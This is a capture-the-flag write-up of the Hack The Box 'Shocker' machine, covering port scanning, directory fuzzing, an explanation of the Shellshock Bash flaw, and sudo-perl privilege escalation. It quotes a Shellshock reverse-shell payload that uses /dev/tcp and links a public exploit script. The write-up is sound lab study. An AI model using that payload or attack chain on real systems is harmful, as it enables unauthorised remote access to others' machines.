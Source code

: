 # EASY - SHOCKER

# 1. Enumeration

I started pinging the target to check if it was a Linux or a Windows system. The Time-To-Live (ttl) was 63, which is very close to 64, so it was a Linux system. Had it been close to 128 (or 128) it would have been a Windows system. After that I conducted an Nmap scan to detect active services on the target using `-p-` to scan all ports. Given that this is a Hack The Box machine (a controlled environment), I optimized the scan for speed using the following flags: `--min-rate 4000`, `-sS` for a SYN scan, and `-T4` for maximum speed.

![image.png](EASY-SHOCKER/image.png)

The scan has revealed the following open ports:

- **HTTP** on port 80
- **SSH** on port 2222 (not the default port)

 Then, I conducted a more thorough scan to those two ports using service version detection (`-sV`) and the Nmap Scripting Engine (NSE) with default scripts (`-sC`). I also saved the output for easy reference later (`-oN nmap`).

![image.png](EASY-SHOCKER/image%201.png)

After the scan I ran `whatweb` to check which technologies did the HTTP service use and tried visiting the webpage to look for web vulnerabilities. The web contained an image only and `wappalyzer` couldn’t discover any technologies that `whatweb` hadn’t discovered before.

![image.png](EASY-SHOCKER/image%202.png)

![image.png](EASY-SHOCKER/image%203.png)

As there were no technologies that could have any exploits I decided to fuzz directories with `Gobuster` to discover any hidden content that could exist. There were no files which I could access but the directory /cgi-bin/ was found, so I ran gobuster again to look for content inside it. 

![image.png](EASY-SHOCKER/image%204.png)

![image.png](EASY-SHOCKER/image%205.png)

While `Gobuster` was running I googled “cgi bin exploit” and I found this article https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi that mentioned the ShellShock vulnerability (**CVE-2014-6271**). This vulnerability consisted on attaching malicious code to environment variables. Before trying the exploit I checked gobuster and it had discovered a file called user.sh. I checked it but it didn’t seem to show anything useful. 

![image.png](EASY-SHOCKER/image%206.png)

# 2. ShellShock

So I decided to look for information about the vulnerability and I found a script to exploit it ( https://github.com/MY7H404/CVE-2014-6271-Shellshock ). But, before running the script I made sure I understood what was happening and why it worked.

ShellShock is a vulnerability in Bash, which is a command-line shell used in many Unix and Linux systems. Bash allows users to define functions, and those functions can be stored in environment variables.The problem arises when there is malicious code written after the function definition. Instead of just defining the function, Bash will also execute any code that comes **after** the function definition. This should never happen because environment variables are supposed to contain definitions, not executable code.

### How it works:

This is how a normal bash function definition looks like: `x='() { echo hello; }'` . If this function were to be stored inside an environment variable it would look like this: `env x='() { echo hello; }'`. Normally, this just defines a function `x` that prints "hello" when called. However, consider this command:`env x='() { echo hello;}; echo exploit'`. Under normal circumstances, Bash should ignore the `echo exploit` part and only define the function. However, in Bash versions vulnerable to ShellShock, the `echo exploit` would also be executed immediately after defining the function. This allows anyone to execute arbitrary code in systems which are running vulnerable versions of Bash. 

What the script I downloaded does is setting a listener in our system (to capture the reverse shell) and then sending a HTTP request to the vulnerable server which contains the payload the user chooses inside the User-Agent header. For example, if the tcp option is chosen, the payload is the following: `payload = "() { ignored;};/bin/bash -i >& /dev/tcp/%s/%s 0>&1" % (args.remote, args.port)` . This defines a function and then sends an interactive shell to our system. This works because when a CGI script is executed, the web server passes information (like HTTP request headers) to the script by setting them as environment variables. If the CGI script uses a vulnerable version of Bash to process the requests, it willnot only define the function but also execute the arbitrary code that comes after it. The arbitrary code is executed with the permissions of the user under which the vulnerable Bash process is running.

### Exploitation:

Running the downloaded script against the [user.sh](http://user.sh) script we found in the webserver successfully spawns an interactive shell in our system.

![image.png](EASY-SHOCKER/image%207.png)

# 3. Privilege Escalation

 Having access to the system I tried checking wether the user shelly had any sudo permissions. It had permissions to run perl as sudo so I looked up “perl privesc” in Google and I found a GTFOBins article which had a perl command to spawn a shell.

![image.png](EASY-SHOCKER/image%208.png)

After that, I spawned a tty with `python3 -c 'import pty; pty.spawn("/bin/bash")'`  and captured the root flag.

![image.png](EASY-SHOCKER/image%209.png)
